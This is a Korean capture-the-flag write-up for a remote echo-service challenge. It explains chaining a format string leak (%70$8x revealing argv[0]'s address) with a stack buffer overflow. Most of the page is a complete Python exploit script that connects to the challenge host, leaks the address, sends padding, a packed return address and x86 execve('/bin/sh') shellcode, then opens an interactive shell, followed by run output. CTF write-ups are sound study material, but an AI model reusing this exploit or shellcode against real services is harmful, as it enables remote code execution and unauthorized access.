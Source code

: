 #### 1. 문제 분석 및 풀이

이번 문제는 remote exploit 이지만 FSB(Format String Bug)와 Buffer Overflow 두 가지 취약점이나 있으므로 생각보다 쉽게 풀립니다.

ASLR이 걸려있지만 우리에겐 든든한 FSB취약점이 존재하므로 do_echo함수의 printf에 브레이크 포인트를 걸고 스택의 값들을 찬찬히 둘러보면, 여러가지 주소가 스택에 있습니다.

FSB를 이용하면 어떤 값이든 가져올 수 있는데 문제는 어떤 값을 가져오는게 좋겠느냐 겠지요.

여기서 어떤값을 택하느냐에 따라 여러가지 풀이가 나올 수 있는데 제가 택한 값은 argv[0]의 주소 입니다.

이 argv[0]의 주소는 %70$8x 를 넣어 주면 되고 주소를 알아냈으니 Buffer Overflow로 argv[0]값을 shellcode로 덮으면 되겠네요.


이때 스택의 구조를 보면 다음과 같습니다.

`[buffer 256 byte] [12 byte dummy] [return address] [8 byte dummy] [argv[0]]`

#### 2. Exploit Code

```Python
# exploit.py
from socket import *
from struct import *
import telnetlib
import time
import sys

def recv_until(s, data):
        buf = ""
        while True:
                c = s.recv(1)
                buf += c
                if data in buf:
                        break
        return buf

host = 'play.hexa.pro'
port = 12345

s = socket( AF_INET, SOCK_STREAM )
s.connect((host,port))

# STAGE 1: Leak stack address
recv_until(s, "Welcome to HeXA Echo Service!")
s.send("LEAP%70$8x\n")
recv_until(s, "LEAP")

# leaked_addr is address of argv[0]
leaked_addr = int(s.recv(8),16)

# gdb-peda$ shellcode generate x86/linux exec
# x86/linux/exec: 24 bytes
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
    "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
)

# STAGE 2: Exploit
payload = ""
payload+= "A"*256                 # char buffer[256]
payload+= "B"*12                  # 12 byte dummy
payload+= pack("<L", leaked_addr) # return address
payload+= "C"*8                   # 8 byte dummy
payload+= shellcode               # shellcode

print "[+] Send payload..."
s.send(payload + "\n")

print "[*] You got a shell!"
s.send("cat flag\n")

# Interact with server
try:
        t = telnetlib.Telnet()
        t.sock = s
        t.interact()
        t.close()
except KeyboardInterrupt:
        pass
```

```Shell
$ python exploit.py
[+] Send payload...
[*] You got a shell!

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBB▒a▒CCCCCCC1▒Ph//shh/bin▒▒1ɉ▒j
                                                            X̀
What the buggy echo server :(

```
